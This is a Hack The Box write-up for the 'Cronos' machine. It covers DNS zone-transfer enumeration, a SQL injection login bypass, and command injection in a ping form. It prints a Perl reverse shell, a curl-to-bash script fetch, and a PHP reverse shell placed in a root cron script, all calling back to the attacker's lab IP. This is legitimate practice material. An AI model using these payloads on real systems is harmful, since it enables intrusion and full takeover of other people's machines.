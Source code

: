 # Cronos
> Name: Cronos<br/>
> Difficulty: Medium<br/>
> Solved: 25th June 2021<br/>

## Intro
Cronos is an interesting  Linux (ubuntu) machine. Below is the log of how i approached it.

<br/>

## Enumeration
Lets first scan the box with nmap to see services running. We use below command:<br/>

    `$ nmap -sC -sV -oA nmap/cronos 10.10.10.13`<br/>
    
Above command runs nmap with default scripts `-sC`, version detection `-sV` and creates output in other file formats.
<br/>

The scan gives the following output:

![Nmap Image](./images/cronos_nmap.png)

We have services running on port 22, 53 and 80. We'll check them in detail.

<br/>
First, lets check the website running on port 80. 

![](./images/cronos_apacheDefault.png)

It just gives us a default Apache page. I tried gobuster on it but found no directories. :(

<br/>

Then we turn our attention to port 53, I had no idea about <span id=yellow>ISC BIND service</span>. Searching the internet provided some information.<br/>
Below is a simple description:
> BIND (Berkeley Internet Name Domain) is an open source software that enables you to publish your Domain Name System (DNS) information on the Internet, and to resolve DNS
queries for your users.

Next, Looked at `searchsploit` for any known exploits, spent some time trying them, but none of them worked.

After a while i queried the server for its <u>reverse DNS record</u>, i used below command:<br/>
    `dig @10.10.10.13 -x 10.10.10.13`<br/>

Below we can see, that the server responded:

![](./images/cronos_dig1.png)

Now, we have new domains. So i added <span id=yellow>ns1.cronos.htb</span> and <span id=yellow>cronos.htb</span> to my host file.<br/>

Visiting cronos.htb and ns1.cronos.htb provided with a simple webpage created using Laravel and no further directories were revealed with gobuster .
So this seemed like a dead end. :(

<br/>
Now, since this is a DNS Server, it tried to do <u>zone transfer</u> and it worked. See below:

![](./images/cronos_dig.png)
Consequently, this revealed the admin portal -> <span id=green>admin.cronos.htb</span>


Now i visited admin.cronos.htb and was greeted with a login form as shown below

![](./images/cronos_adminpanel.png)

<br/>
Tried some basic payloads and got in with a simple SQL authentication bypass payload:<br/>
    `admin' or '1'='1'#`  or  `admin' #`     worked for me.
    
We can see the request in Burp for the same
![](./images/cronos_authbypass.png)

<br/>

After the bypass it redirected me to a simple webpage, where two commands  `traceroute` and `ping` could be executed. 

I verified if i could ping my machine, below we can see `tcpdump` capturing ping request coming to our machine.

![](./images/cronos_cmdexecution.png)

Next, it was only natural to try to see if i could get <span id=green>command execution here</span>.<br/>
So i tried the payload `8.8.8.8; ls` and it displayed the contents of web root directory.<br/>Great! We have command execution.

Then i set up a listener on my local machine and ran a reverse shell on the server and got the session.<br/>

![](./images/cronos_perlshell.png)

Perl reverse shell Payload used above:
```perl
8.8.8.8; perl -e 'use Socket;$i="10.10.14.7";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
<br/>

Below we can see, we get a session on our local machine <span id=green>:)</span>

![](./images/cronos_rshell1.png)

Now, we have session to server. we see a home directory of user `noulis` and there we get our `user.txt` <span id=green>flag</span>.

Next task: Privilege escalation.
<br/>
<br/>

## Privilege Escalaiton

Make a local python server and upload the `linEnum.sh` script.<br/>

  Start a local python server  : `$ python -m SimpleHTTPServer 8181`<br/>
  Run this script on Server   : `$ curl http://10.10.14.7/linEnum.sh | bash`
  
![](./images/cronos_linEnum1.png)

<br/>
Spent some times time looking at the output, its a lot. Then came across something <span id=green>interesting:</span>

![](./images/cronos_linEnum1.png)

Above we can see, the PHP script `/var/www/laravel/artisan` is being run as root, which we can modify.

<br/>
Now, we prepare a PHP webshell and upload it to replace the contents of the  script `artisan`. 
```php
#!/usr/bin/env php
<?php
$sock=fsockopen("10.10.14.7",4445);exec("/bin/sh -i <&3 >&3 2>&3");
```
<br/>
Below is detail of steps performed to upload PHP webshell
![](./images/cronos_exploitation.png)

<br/>
Meanwhile, we set up a listener at port `4445`, and wait for shell to execute via cronjob.<br/>
After a minute, got the session and we are root :)

![](./images/cronos_root.png)

<br/>
<span id=green>Cronos is Owned!!!</span>


<br/>

[<< Back](https://grey-fish.github.io/HTB/index.html)
